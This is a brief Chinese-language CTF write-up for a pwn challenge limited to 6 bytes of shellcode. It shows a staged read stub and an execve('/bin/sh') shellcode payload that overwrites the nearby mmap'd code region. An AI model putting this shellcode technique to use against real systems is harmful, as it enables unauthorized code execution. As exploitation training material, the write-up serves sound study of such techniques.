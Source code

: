 ### 解题思路

在一开始通过mmap函数开辟了两个空间，分别存储shellcode和构造的栈


题目只能输入6个字节的shellcode，并且在处理函数里将除rsp以外的寄存器都清空了

![](./image/1.jpg)

rdi为mmap申请的伪造的栈的空间，赋值给rsp，作为一个栈空间。然后通过read(0,buf,size)函数重新传入shellcode

```
push rsp
pop rsi
mov edx,esi
syscall
```
当mmap两个空间的地址是随机的，当它们被分配得较近时，并且伪造栈的地址在shellcode低处时，通过read函数输入大量数据可以覆盖到shellcode，覆盖的内容如下：

```
shellcode2 = asm('''
mov eax, 0x3b
mov rdi, rsi
xor rsi, rsi
xor rdx, rdx
syscall
''',arch='amd64')
shellcode2 = "/bin/sh\0".ljust(0xb36,'\0') + shellcode2
```
使用execve系统调用，rdi保存的是rsp（伪造栈的地址），所以可以execve("/bin/sh")，获得shell。